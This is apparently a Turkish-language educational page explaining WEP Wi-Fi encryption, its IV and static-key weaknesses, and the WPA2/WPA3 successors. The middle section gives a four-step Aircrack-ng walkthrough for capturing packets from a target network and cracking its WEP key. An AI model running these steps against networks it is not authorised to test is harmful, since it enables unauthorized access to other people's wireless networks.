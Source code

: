 ## **🔐 WEP (Wired Equivalent Privacy) Nedir?**

WEP (**Wired Equivalent Privacy – Kabloluya Eşdeğer Gizlilik**), **1997 yılında IEEE 802.11 standardı** ile tanıtılan, kablosuz ağları şifrelemek için kullanılan **ilk güvenlik protokolüdür**. Ancak, **zayıf şifreleme algoritmaları** nedeniyle günümüzde güvenli kabul edilmez ve kullanılması önerilmez.

## **📌 1️⃣ WEP'in Özellikleri**

🔹 **RC4 Şifreleme Algoritması Kullanır:**WEP, veri paketlerini şifrelemek için **RC4 (Rivest Cipher 4)** algoritmasını kullanır.
🔹 **64-bit ve 128-bit Şifreleme:**

* 64-bit WEP = **40-bit anahtar + 24-bit IV (Initialization Vector)**
* 128-bit WEP = **104-bit anahtar + 24-bit IV**🔹 **Statik Anahtar Kullanımı:**Tüm istemciler **aynı şifreleme anahtarını paylaşır**, bu da saldırılara karşı savunmasız hale getirir.

📌 **En büyük zayıflığı: IV (Initialization Vector) rastgele olmadığı için tekrar eden şifreleme desenleri oluşturur.**

## **📌 2️⃣ WEP'in Zayıflıkları ve Kırılması**

❌ **Kısa IV (24-bit) nedeniyle tekrar eden desenler oluşur.**❌ **Statik anahtar kullanımı kırılmayı kolaylaştırır.**❌ **Zayıf paket analizi ile birkaç dakika içinde kırılabilir.**

📌 **Aircrack-ng ile WEP şifresi nasıl kırılır?**1️⃣ **Monitor modunu aç:**

bash

sudo airmon-ng start wlan0

2️⃣ **Ağları tara:**

bash

sudo airodump-ng wlan0mon

3️⃣ **Hedef ağı seç ve paket topla:**

bash

sudo airodump-ng -c [Kanal] --bssid [Ağ MAC] -w dump wlan0mon

4️⃣ **Paketleri analiz ederek WEP anahtarını kır:**

bash

sudo aircrack-ng -b [Ağ MAC] dump.cap

📌 **WEP şifresi genellikle birkaç dakika içinde kırılabilir.**

## **📌 3️⃣ WEP Yerine Hangi Protokoller Kullanılmalı?**

✅ **WPA (Wi-Fi Protected Access)** → WEP'in yerini almıştır, ancak WPA1 hala bazı güvenlik açıklarına sahiptir.
✅ **WPA2 (AES Şifreleme Kullanır)** → Günümüzde en yaygın kullanılan güvenlik protokolüdür.
✅ **WPA3 (En Güvenli Seçenek)** → Daha güçlü kimlik doğrulama ve şifreleme sağlar.
